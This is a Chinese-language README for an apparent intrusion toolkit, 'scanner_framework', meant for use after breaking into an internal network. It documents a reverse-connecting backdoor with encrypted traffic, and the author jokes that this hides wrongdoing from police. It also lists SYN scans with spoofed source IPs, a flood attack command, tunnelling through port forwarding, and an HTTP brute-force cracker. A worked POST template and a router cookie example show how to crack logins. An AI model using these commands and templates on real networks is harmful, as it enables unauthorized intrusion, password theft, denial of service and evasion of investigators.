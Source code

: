 
##scanner_framework

===

网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..    --  LCatro

***

###启动方式
scanner.exe 控制台启动<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80 [WARNING! 记得先启动reverse_server ,不然scanner.exe 不能成功连接]<br/>

###使用方法
扫描当前网段存活的主机,并且自动搜集数据<br/>
using:arp<br/>
获取当前主机的网络信息<br/>
using:local<br/>
测试主机是否连通<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪<br/>
using:tracert %ip/host%<br/>
抓取页面<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
显示帮助<br/>
using:help<br/>
退出<br/>
using:quit<br/>

###在线破解 crack
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	
	什么是表达式?
	
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
	然后会提示输入表达式
	
	input your crack express:
	
	输入数据包数据:
	POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
	Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
	Referer: http://192.168.1.103/api/analays.php<br/>
	Accept-Language: zh-CN<br/>
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
	Content-Type: application/x-www-form-urlencoded<br/>
	Accept-Encoding: gzip, deflate<br/>
	Host: 192.168.1.103<br/>
	Content-length: %length%<br/>
	Pragma: no-cache<br/>
	<br/>
	user=%username%&pass=%password%<br/>
	
	其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小<br/>[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
	
	input your check term:
	
	输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
	Sucess
	
	now cracking!
	
	network crack - target:192.168.1.103:80
	username:root password:toor
	
	破解完成
	
	
	表达式函数:
	
	base64(%string%) -- 采用base64 编码
	time() -- 获取系统时间
	len(%string%) -- 统计字符串长度
	rnd([%low%-%up%]) -- 在%low% 到%up% 之间生成随机数
	
	Example :
	
	破解水星的数据包 (其它都差不多,关键在Cookie):
	
	Cookie: a2404_pages=10; a2404_times=5; Authorization=Basic%20base64(admin:%password%)\r\n
	
	接下来会把%password% 先填充好之后再编码base64
	
	WARNING! 由于水平问题还做不出递归,请见谅 ..  
	


####端口转发原理:
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)


###Other
===
#####reverse_server 是用来做反向连接用的服务端
#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..
